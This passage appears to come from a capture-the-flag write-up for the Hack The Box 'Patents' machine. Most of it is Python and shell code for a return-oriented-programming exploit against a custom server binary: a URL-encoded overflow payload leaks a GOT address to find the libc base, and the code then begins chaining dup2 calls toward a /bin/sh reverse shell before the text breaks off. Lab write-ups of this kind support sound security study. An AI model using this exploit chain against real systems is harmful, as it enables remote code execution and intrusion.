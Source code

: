 In order to send binary your payload needs to be urlencoded.  Utilizing some gadgets we can leak the libc base.

```sh
╭─zoey@nomadic ~/htb/patents/lfm ‹master*› 
╰─$ ROPgadget --binary lfmserver
0x000000000040251f : nop ; ret
0x0000000000405c4b : pop rdi ; ret
0x0000000000405c49 : pop rsi ; pop r15 ; ret
```

"In the case of nop gadgets, they are exclusively used for aligning memory as far as I know, so that EIP doesn't read from the middle of a pointer, for example. In terms of crafting a payload or executing shellcode, they are used mostly when exact memory address aren't known or to align the shellcode correctly."  `0x405c4b` can give us a gadget for our first argument. `0x405c49` can give us a gadget for our second argument.  Knowing this we can make calls.  In order to leak something we need to write to the socket.  We can brute-force the socket fd and write an address to it from the GOT.  Stringing it together...

```python
payload = "/convert.php%00"
payload += cyclic(140).decode("utf-8")
payload += urllib.parse.quote(p64(0xAAAABBBB)) # $rbp value after ret
payload += urllib.parse.quote(p64(0x405c4b)) # gadget to pop rdi
payload += urllib.parse.quote(p64(0x6)) # rdi value, arg1, # for socket descriptor (brute-force?)
payload += urllib.parse.quote(p64(0x405c49)) # next gadget to pop rsi
payload += urllib.parse.quote(p64(lfmELF.got['dup2'])) #rsi value, arg2, pointer to bytes to write
payload += urllib.parse.quote(p64(0xAAAAAAAA))# r15 value, throwaway
payload += urllib.parse.quote(p64(lfmELF.symbols['write'])) # call to write to socket
rcvd = sendPayload(payload)
```

Subtracting the the dup2 leaked address from the location in libc gives us the libc_base:

```python
libc_base = dup2_leak - libc.symbols["dup2"] # compute libc base
print("dup2 = %s" % hex(dup2_leak))
print("libc_base = %s" % hex(libc_base))
```

#### Creating the reverse shell

Once we have the libc base address we can start trying to call various other functions.  If we can call dup2 three times and then execute `/bin/sh` we've got a reverse shell setup.  We already have dup2, and we can find system via `libc_base + libc.symbols['system']`, so now we need a `/bin/sh` string.  You can find it via

```sh
╭─zoey@nomadic ~/htb/patents/lfm ‹master*› 
╰─$ strings -t x -a ../checker/libc-2.28.so | grep "/bin/sh"                                1 ↵
 1aae80 /bin/sh
 ```

Now that we have the ingredients we can string it altogether in `do-check.py`.

```python
payload = "/convert.php%00"
payload += cyclic(140).decode("utf-8")
payload += urllib.parse.quote(p64(0xAAAABBBB)) # $rbp value after ret

payload += urllib.parse.quote(p64(pop_rdi))
payload += urllib.parse.quote(p64(0x6))
payload += urllib.parse.quote(p64(pop_rsi_and_r15))
payload += urllib.parse.quote(p64(0x0))
payload += urllib.parse.quote(p64(0xdeadbeef)) #ignored
payload += urllib.parse.quote(p64(dup2))

payload += urllib.parse.quote(p64(pop_rdi))
payload += urllib.parse.quote(p64(0x6))
```